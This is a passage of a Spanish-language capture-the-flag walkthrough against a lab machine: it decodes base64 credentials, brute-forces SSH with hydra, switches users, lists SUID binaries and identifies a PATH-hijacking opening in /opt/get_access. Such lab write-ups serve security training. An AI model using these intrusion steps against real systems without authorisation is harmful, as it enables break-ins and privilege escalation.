 * Todas las credenciales están en base64, así que las decodeamos

    ```bash
    root@kali> cat sql | awk '{print $4}' | while read line; do echo "$line" | base64 -d;echo; done

    X7MQkP3W29fewHdC
    suRJAdGwLp8dy3rF
    DJceVy98W28Y7wLg
    7ZwV4qtg42cmUXGX
    cqNnBWCByS2DuJSy
    ```

e. Guardamos los usuarios y las contraseñas en archivos y usaremos hydra para probar con todas las credenciales

```bash
root@kali> hydra -L users.txt -P passwords.txt ssh://192.168.100.27
[22][ssh] host: 192.168.100.27   login: travis   password: DJceVy98W28Y7wLg

root@kali> sshpass -p 'DJceVy98W28Y7wLg' ssh travis@192.168.100.27
travis@debian:~$
```

### Escalada de Privilegios 💹

a. Vemos que existe el usuario **dexter** del cual tenemos la contraseña, por lo que nos transformamos en este usuario

```bash
travis@debian:/home$ su dexter
Password: 7ZwV4qtg42cmUXGX
```

* En el directorio de este usuario tenemos la siguiente nota

    ```bash
    dexter@debian:/home/dexter$ cat note.txt
    It seems to me that there is a weakness while accessing the system.
    As far as I know, the contents of executable files are partially viewable.
    I need to find out if there is a vulnerability or not.
    ```
    > Aquí nos dicen que no se sabe si ver parcialmente el código de ejecutables sea un riesgo.

* Consultamos por binarios SUID en el sistema

    ```bash
    dexter@debian:/home/dexter$ find / -perm -4000 2>/dev/null                                                
    /opt/get_access
    <SNIP>
    ```

* Listamos las cadenas legibles de este binario

    ```bash
    dexter@debian:/home/dexter$ strings /opt/get_access
    <SNIP>
    cat /root/system.info
    <SNIP>
    ```
    > **cat** se llama de manera relativa por lo que es vulnerable a un Path Hijacking
